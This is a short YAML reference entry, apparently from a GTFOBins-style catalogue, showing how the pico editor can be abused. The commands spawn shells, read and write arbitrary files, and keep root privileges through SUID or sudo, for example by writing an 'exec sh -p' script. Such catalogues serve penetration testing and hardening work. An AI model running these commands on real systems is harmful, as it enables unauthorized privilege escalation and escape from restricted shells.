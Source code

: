 ```yaml
---
functions:
  shell:
    - code: |
        pico -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh -p
        exec sh -p' > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        pico -s /bin/sh
        /bin/sh
        ^T
---
```

